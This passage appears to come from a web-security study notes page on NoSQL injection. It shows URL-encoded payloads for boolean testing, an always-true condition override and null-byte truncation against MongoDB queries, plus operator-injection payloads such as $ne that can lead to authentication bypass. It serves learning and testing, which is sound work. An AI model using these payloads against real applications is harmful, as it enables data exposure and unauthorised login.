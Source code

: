 ```sh
# Send two requests, one with a false condition and one with a true condition; e.g. ' && 0 && 'x and ' && 1 && 'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
# If the app behaves differently -> false condition impacts the query logic, but the true condition doesn't

########################## Overriding existing conditions
# For example, you can inject a JavaScript condition that always evaluates to true, such as '||'1'=='1:
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
 This results in the following MongoDB query:
this.category == 'fizzy'||'1'=='1'
# As the injected condition is always true, the modified query returns all items / NOTE: be careful with OR 1=1 queries
# You could also add a null char -> MongoDB may ignore all subsequent conditions after that null char, for example:
this.category == 'fizzy' && this.released == 1
# In this case, an attacker could construct an attack as follows:
https://insecure-website.com/product/lookup?category=fizzy'%00																	'
# This results in the following NoSQL query:
this.category == 'fizzy'\u0000' && this.released == 1																	'
# If MongoDB ignores all chars after the null char -> all products in the fizzy category are displayed, even unreleased products. 
```
{% endcode %}

## NoSQL operator injection

{% code overflow="wrap" fullWidth="true" %}
```sh
Query operators -> specify conditions that data must meet to be included in the query result. Examples of MongoDB:
    $where - Matches documents that satisfy a JavaScript expression.
    $ne - Matches all values that are not equal to a specified value.
    $in - Matches all of the values specified in an array.
    $regex - Selects documents where values match a specified regular expression.

######################### Submitting query operators
# In JSON messages, you can insert query operators as nested objects.
{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}
# For URL-based inputs, you can insert query operators via URL parameters
username=wiener becomes username[$ne]=invalid
# If this doesn't work:
    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
# NOTE: Content Type Converter extension -> converts the request method and change a URL-encoded POST request to JSON. 

###################### Detecting operator injection in MongoDB
# Consider a vulnerable application that accepts a username and password in the body of a POST request:
{"username":"wiener","password":"peter"}
# Test each input with a range of operators -> test if username input processes the query operator:
{"username":{"$ne":"invalid"},"password":"peter"}
# If the $ne operator is applied, this queries all users where the username is not equal to invalid.
# If both the username and password inputs process the operator, it may be possible to bypass authentication:
```